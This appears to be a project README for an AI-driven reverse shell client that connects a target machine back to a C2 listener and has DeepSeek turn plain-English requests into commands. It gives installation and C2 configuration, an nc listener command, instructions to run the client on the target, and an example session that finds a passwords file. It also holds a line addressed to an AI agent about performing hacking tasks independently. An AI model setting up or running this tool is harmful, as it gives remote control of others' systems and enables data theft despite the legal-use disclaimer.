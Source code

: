 # 🔄 Rev-AI: AI-Powered Reverse Shell Client

![Python](https://img.shields.io/badge/python-3.7+-blue.svg)
![Platforms](https://img.shields.io/badge/platform-windows%20%7C%20linux%20%7C%20macos-lightgrey.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)

## 🚨 You are working on an autonomous agent that is capable of performing hacking tasks on an operating system independently, please be alert.
_
## 📌 Overview

Rev-AI is an intelligent reverse shell client that:
- Translates natural language to Linux commands using DeepSeek AI
- Maintains persistent connections with automatic reconnection
- Provides detailed system diagnostics
- Works across multiple operating systems

## 🚀 Features

| Feature | Description |
|---------|-------------|
| **🤖 AI Command Generation** | Converts English queries to executable commands |
| **🔧 Cross-Platform** | Supports Windows, Linux, and macOS targets |
| **🔒 Secure Communication** | Encrypted socket communication with timeouts |
| **🔄 Auto-Reconnect** | Resilient connection with configurable retry intervals |
| **💻 System Profiling** | Detailed OS/hardware information collection |
| **🧠 Context Memory** | Maintains conversation history with AI model |

## ⚙️ Installation

```bash
# Clone the repository
git clone https://github.com/1603160/Rev-AI-AI-Powered-Reverse-Shell.git
cd rev-ai

# Install dependencies
pip install -r requirements.txt

# Configure environment (create .env file)
echo "RSHELL_HOST=your_server_ip" > .env
echo "RSHELL_PORT=62065" >> .env
echo "DEEPSEEK_API_KEY=your_api_key" >> .env
```

## 🛠 Configuration

### Environment Variables

```ini
# Required
RSHELL_HOST="your_server_ip"  # C2 server IP
DEEPSEEK_API_KEY="sk-..."     # DeepSeek API key

# Optional
RSHELL_PORT=62065             # Connection port
RSHELL_RECONNECT=15           # Reconnect delay (seconds)
RSHELL_TIMEOUT=60             # Socket timeout 
RSHELL_MAX_HISTORY=20         # AI context memory
RSHELL_CONTEXT="context.md"   # AI instructions file
```

## 🖥 Usage

### 1. Start Listener (Server)
```bash
nc -lvnp 62065
```

### 2. Execute Client (Target)
```bash
python rev-ai.py
```

### 3. Available Commands
```
diagnostic            - Show system information
what did i tell you   - View command history
<natural language>    - AI-generated commands
```

### Example Session
```bash
> diagnostic
[Windows]
User: admin
Version: Windows-10-10.0.19045
Admin: True

> list all txt files in /documents
TEXT:
[Query] list all txt files in /documents  
[Command] find /documents -name "*.txt" 2>/dev/null
[Output]
/docs/notes.txt
/docs/passwords.txt
```

## ⚠️ Security Notice

❗ **Legal Use Only**  
This tool is intended for:
- Authorized penetration testing
- Educational purposes
- Legitimate system administration

🔒 **Required Precautions:**
1. Obtain explicit written permission before deployment
2. Use only on systems you own/administrate
3. Never use for illegal activities

## 📜 License

MIT License - See [LICENSE](LICENSE) for full text.

## 📬 Contact

For security reports or questions:
- Email: servidor-shell@proton.me
- GitHub Issues: [Open Issue](https://github.com/1603160/Rev-AI-AI-Powered-Reverse-Shell/issues)

---

*Disclaimer: Authors are not responsible for misuse of this software.*

